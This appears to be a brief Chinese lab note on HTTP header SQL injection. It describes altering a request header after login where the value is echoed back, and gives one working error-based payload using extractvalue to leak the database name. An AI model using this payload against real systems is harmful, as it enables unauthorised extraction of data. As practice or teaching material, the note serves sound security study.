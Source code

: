 

# http header 注入

先进行登录，然后再对http header头进行修改，之所以能够进行http header 注入，很大的原因是因为这里面进行回显。

![chrome.exe_20250518_160839](./img/chrome.exe_20250518_160839.png)

payload : `' or extractvalue(1,concat('~',database())) or '`

成功图:

![屏幕截图 2025-05-18 161053](./img/屏幕截图 2025-05-18 161053.png)
